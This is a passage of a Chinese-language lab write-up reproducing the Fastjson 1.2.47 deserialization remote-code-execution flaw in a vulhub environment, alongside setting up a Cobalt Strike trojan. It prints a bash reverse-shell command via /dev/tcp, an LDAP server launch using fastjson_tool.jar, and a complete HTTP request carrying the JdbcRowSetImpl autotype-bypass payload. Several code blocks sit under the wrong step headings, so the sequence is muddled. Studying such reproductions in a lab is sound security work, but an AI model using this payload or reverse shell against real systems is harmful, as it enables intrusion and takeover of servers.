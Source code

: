 设置监听器，创建木马上线文件，命名为`xigua.exe`，并复制到`Kali Linux`上，可以直接通过上面开启的 python2 的 http 服务访问得到。

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3icfiaC2TEFqM7T31ciavUJGUaiahN1gCEZ5latlW2wWO8JMcp9kVcd5dfarhfOibv1rxfGKRO1aS3gH4A/640?wx_fmt=jpeg)

**4）BurpSuite 抓包修改**

```
cd vulhub/fastjson/1.2.47-rce
sudo docker-compose up -d
sudo docker ps
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3icfiaC2TEFqM7T31ciavUJGUaxOBgnhWlNaiaTgTicRibda3vJzSdlyDeVoCQf099Uj2kAmtS1tVDuxq8g/640?wx_fmt=jpeg)

**5）成功上线 CS**

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3icfiaC2TEFqM7T31ciavUJGUaCYFTe3wZFxt8QkFSLETY5fMhwpJ4gBkKR5LD5JnW5ia747FHlLGgKiaA/640?wx_fmt=jpeg)

### 3、Fastjson1.2.47 反序列化漏洞（CNVD‐2019‐22238）

**0x01 简介**

Fastjson1.2.24 后增加了反序列化白名单，Fastjson 中 autotype 功能允许用户通过 @type 指定反序列化的类型，在 Fastjson1.2.48 版本前攻击者可以通过构造特殊的 json 字符串进行绕过该白名单，进而造成远程命令执行，该漏洞且无需开启 autotype 即可利用成功。

**0x02 环境搭建**

依旧使用 vulhub 靶场

```
java -cp fastjson_tool.jar fastjson.HLDAPServer 192.168.112.146 8888 "bash=/bin/bash -i  >& /dev/tcp/192.168.112.146/9001 0>&1"
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3icfiaC2TEFqM7T31ciavUJGUaKzHJM2IQ17yOoMMTibQM87LQxYrms6ErC24Ouuxohia5gjKC6P0VDpsQ/640?wx_fmt=jpeg)

**0x03 复现操作 - 监听反弹 shell**

上一个漏洞复现中使用了`marshalsec-0.0.3-SNAPSHOT-all.jar`工具搭建 RMI/LDAP 服务，本次复现中使用另一个工具`fastjson_tool.jar`

下载地址：

https://github.com/wyzxxz/fastjson_rce_tool

**1）启动 LDAP 服务器**

使用如下命令，8888 端口为 LDAP 服务端口，后面的命令为反弹 shell 命令，直接使用该工具提示的 payload。

```
POST / HTTP/1.1
Host: 192.168.112.141:8090
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 189

{"e":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"f":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://192.168.112.146:8888/Object","autoCommit":true}}
```
